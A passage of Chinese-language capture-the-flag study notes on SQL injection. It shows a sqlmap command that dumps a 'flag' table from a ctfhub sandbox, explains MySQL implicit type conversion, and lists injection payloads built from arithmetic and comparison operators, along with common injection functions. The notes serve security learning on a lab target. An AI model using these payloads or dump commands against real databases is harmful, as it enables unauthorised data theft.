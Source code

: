 -D是数据库，“-tables”指向爆破表名。

![image-20220609171339585](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609171339585.png)

```
python sqlmap.py -u "http://challenge-e99a1b60dec1fa53.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns --dump
```

-T是表名，-columns是爆破列名,-dump是爆数据

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172005140.png" alt="image-20220609172005140" style="zoom:80%;" />

### **MySQL结构

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609171503924.png" alt="image-20220609171503924" style="zoom:80%;" />

**MYSQL的隐式类型转换：**

如果两个参数比较，有至少一个NULL，结果就是NULL，除了是用NULL<=>NULL 会返回1，不做类型转换。

两个参数都是字符串，按照字符串比较，不做类型转换。

两个参数都是整数，按照整数比较，不做类型转换。

如果不与数字进行比较，则将十六进制值视为二进制字符串。

有一个参数是 decimal 类型，如果另外一个参数是 decimal 或者整数，会将整数转换为 decimal 后进行比较，如果另外一个参数是浮点数，则会把 decimal 转换为浮点数进行比较

所有其他情况下，两个参数都会被转换为浮点数再进行比较。

**利用算术运算符：**

实际中我们接触到的语句都是带有引号的，类似于where username='+input+' 这样的，这时候我们就需要做一些处理来构造false注入的利用点。

```
输入+ 则相当于语句被转化为 where username="+"
+,-,*,/,%都是同理。
```

**利用比较运算符：**

```
   安全等于：<=>
'=0<=>1# 拼接的语句：where username=''=0<=>1#'

   不等于<>(!=)
'=0<>0# 拼接的语句：where username=''=0<>0#'
```

**注入常用函数与字符：**

```
mid()---从文本字段中提取字符
limit()---返回前几条或者中间某几行数据
concat、concat_ws、group_concat
MySQL的concat函数在连接字符串的时候，只要其中一个是NULL,那么将返回NULL
group_concat([DISTINCT] 要连接的字段 [Order BY ASC/DESC 排序字段] [Separator '分隔符'])
rand随机数（产生0,1之间随机数）
```
